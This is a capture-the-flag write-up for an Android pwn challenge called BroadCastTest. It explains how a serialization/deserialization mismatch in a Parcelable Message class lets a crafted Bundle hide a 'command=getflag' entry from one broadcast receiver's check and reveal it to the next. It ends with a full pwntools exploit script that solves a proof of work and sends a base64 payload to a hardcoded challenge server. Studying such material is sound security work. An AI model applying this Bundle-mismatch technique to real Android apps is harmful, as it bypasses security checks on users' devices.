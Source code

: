 ## BroadCastTest
[中文](./README_zh.md) [English](./README.md)

[attachment](./BroadcastTest.apk)

[docker](./docker.zip)

This chall is an android pwn
The vulnerability is about the mismatch between serialization and deserialization
This chall is mainly inspired by CVE-2017-13311, etc.

You can read this article https://weekly-geekly.github.io/articles/457558/index.html, which details the cause of similar vulnerabilities

In the apk, it first read the Base64 string, then base64decode the data and put it as a Bundle in the broadcast, send it to Receiver2
Receiver2 receives the broadcast, takes out the Bundle, and then takes out a string which key is "command" from the bundle, and determines whether it is getflag,
If not, the Receiver2 will continue to broadcast the data to Receiver3
Receiver3 receives the broadcast, takes out the Bundle, check whether the command is getflag, if so, it outputs "Congratulation"

We cannot pass this check in a normal way, but there is a com.de1ta.broadcasttest.MainActivity $ Message class in the apk, where the serialization and deserialization do not match

In Receiver2, checking whether the command is "getflag" will cause the Bundle to be deserialized. When it is sent to Receiver3, it will be serialized again. Finally, Receiver3 will perform the last deserialization after receiving the Bundle.

Using the vulnerability, the string whose key is command cannot be obtained when it is deserialized in Receiver2. After serialization, the string with key as command and the value of getflag appears, and then the check of Receiver3 can pass, and finally get To flag

Below is the exp
```
from pwn import *
import base64
from hashlib import sha256
import itertools
import string
context.log_level = 'debug'

def proof_of_work(chal):
    #for i in itertools.permutations(string.ascii_letters+string.digits, 4):
    for i in itertools.permutations([chr(i) for i in range(256)], 4):
        sol = ''.join(i)
        if sha256(chal + sol).digest().startswith('\0\0\0'):
            return sol


a = 'SAEAAEJOREwDAAAACAAAAG0AaQBzAG0AYQB0AGMAaAAAAAAABAAAACwAAABjAG8AbQAuAGQAZQAxAHQAYQAuAGIAcgBvAGEAZABjAGEAcwB0AHQAZQBzAHQALgBNAGEAaQBuAEEAYwB0AGkAdgBpAHQAeQAkAE0AZQBzAHMAYQBnAGUAAAAAAP////8AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAwAAAA0AAAA0AAAADQAAAAAAAAAHAAAAYwBvAG0AbQBhAG4AZAAAAAAAAAAHAAAAZwBlAHQAZgBsAGEAZwAAAAcAAABjAG8AbQBtAGEAbgBkAAAAAAAAAA0AAABQAGEAZABkAGkAbgBnAC0AVgBhAGwAdQBlAAAA'
b = base64.b64decode(a)
p = remote('206.189.186.98', 8848)
p.recvuntil('chal= ')
chal = p.recvuntil('\n')[:-1]
p.recvuntil('>>\n')
sol = proof_of_work(chal)
p.send(sol)
p.recvuntil('size')
p.sendline(str(len(b)))
p.recvuntil('please input payload:')
p.send(b)
p.interactive()
```
